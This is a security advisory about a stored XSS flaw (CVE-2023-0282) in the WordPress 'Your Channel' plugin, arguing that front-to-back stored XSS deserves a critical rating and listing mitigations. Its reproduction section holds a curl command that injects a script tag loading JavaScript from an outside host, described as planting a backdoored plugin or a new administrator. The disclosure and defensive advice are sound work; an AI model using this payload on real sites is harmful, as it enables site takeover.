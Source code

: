 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for Wordpress"
categories: wordpress
author:
- TouchWeb.fr
- 202 ecommerce
- Friends-Of-Presta.org
meta: "CVE,Wordpress"
severity: "critical (9.0)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-03-03
* **Platform**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.0)

Vulnerability by design applied on Your Channel's plugin. This will work on any plugins which suffer of a XSS T2 F2B.

## Description

This publication is a summary of [TouchWeb](https://www.touchweb.fr)'s work studying the impact of XSS vulnerabilities in the context of the Wordpress CMS, following the [PrestaShop related publication](https://security.friendsofpresta.org/modules/2023/02/07/stored-xss.html)

To highlight the criticality of XSS and give us the means to mitigate their effects, TouchWeb conducted its research based on the vulnerability of the [Your Channel plugins](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62), which in versions prior to 1.2.2 has a stored XSS.

It has been wrongly tag as MEDIUM gravity instead of **CRITICAL** gravity : [CVE-2023-0282](https://nvd.nist.gov/vuln/detail/CVE-2023-0282) like many others XSS T2 F2B :
- [WP-SCAN Unauthenticated Stored XSS](https://wpscan.com/search?text=unauthenticated%20stored&vuln_type=14)
- [WP-SCAN Subscriber+ Stored XSS](https://wpscan.com/search?text=subscriber%20&vuln_type=14)

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H)

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.0+/10 since it unlocks design's vulnerabilities (users's administration / plugins's administration)

For others XSS Type 2 F2F/B2B/B2F (front to front / back to back / back to front), you can preserve a low to medium gravity score. 

Nevertheless, be warn that on Wordpress, XSS of type 1 can be critical if it targets a backoffice due to native predictable backoffice link (natively /wp-admin/).

### Plugin presentation

The [Your channel](https://fr.wordpress.org/plugins/yourchannel/) plugin allow, as subscriber (the lowest native role on Wordpress), to post videos.

The video field is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* yrc_lang[Videos] entered: <strong>my name</strong>
* result: my name will be displayed in bold in the back office in Your Channel's settings.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for Wordpress 4.0+ (we tested for 6.1.1).
* Script A allows injecting a classic-editor plugin containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator (we cannot "disabled it" as PS POC B on creation because WP do not allow this).

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed Wordpress 6.1.1
* We installed the [yourchannel plugin zip](https://github.com/WPPlugins/yourchannel/archive/refs/tags/0.9.1.zip).
* We allow guest on Wordpress to be able to sign up then create an account as guest
* Login with the account you created as guest and reproduce [this POC](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62) :  by replacing `><script>alert(1)</script>` by `><scrip src=//1j.vc/wp_a.js>` or `><scrip src=//1j.vc/wp_b.js>`

```
curl -v --cookie-jar cookie.txt  -X POST -d "log=YOUR_SUBSCRIBER_LOGIN&pwd=YOUR_SUBSCRIBER_PASSWORD&wp-submit=Log+In" "https://preprod.XXX/wp-login.php" \
&& curl -v --cookie cookie.txt -X POST -d "action=yrc_save_lang&yrc_lang[Videos]=%22%3E%3Cscript%20src%3Dhttps%3A%2F%2F1j.vc%2Fwp_a.js%3E%3C%2Fscript%3E" -H "Content-Type: application/x-www-form-urlencoded" https://preprod.XXX/wp-admin/admin-ajax.php
```

* As administrator, return to the back office on plugin's configuration page (Settings > Your Channel)


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
